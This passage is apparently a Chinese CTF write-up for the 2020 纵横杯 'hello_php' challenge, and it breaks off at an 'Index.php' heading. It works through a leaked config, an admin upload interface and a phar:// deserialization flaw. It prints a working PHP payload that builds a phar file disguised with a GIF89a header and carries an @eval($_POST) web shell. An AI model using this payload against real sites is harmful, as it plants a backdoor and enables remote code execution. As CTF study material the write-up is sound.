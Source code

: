 增加了 GIF89a 文件头，从而使其伪装成 gif 文件

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVkcSKHfdobPlHfO0hkejSr5IkBbkAs7SzzAJWmtFBGVAQIOfrnA9tz00uNZUs8kIVwAugGHdwDQ/640?wx_fmt=png)

例子
==

### 2020 纵横杯 hello_php

文件泄漏下载

##### config.php

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVkcSKHfdobPlHfO0hkejSjRagCaEzpA8DEicdiaibOQR5DgvOb1ibS8tRNCehVduibBSWteoeFEMiayYg/640?wx_fmt=png)

发现后台用户名密码登陆后台

登陆后发现上传接口

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVkcSKHfdobPlHfO0hkejStVoMbibTwlG0JBqwjx2eJVocXedVw9oiav63Wzb43FLicuzBEu0LsGWDg/640?wx_fmt=png)

##### class.php

存在 phar:// 反序列化漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVkcSKHfdobPlHfO0hkejSpgIUnIwecH2ibbTe32P8yibR81uY6DjCibTnoA91cEH2GfIPRPQExoibJA/640?wx_fmt=png)

##### Payload

```
<?php

class Config{
   public $title;
   public $comment;
   public $logo_url;
   public function __construct(){
       $this->title= 'th1e\';echo success;@eval($_POST['th1e']);?>';
  }

}
$phar = new Phar("aaa.phar"); //后缀名必须为 phar
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$object = new Config;
$phar->setMetadata($object); //将自定义的 meta-data 存入 manifest
$phar->addFromString("a.txt", "a"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

上传记录时间戳得到文件名

##### Index.php
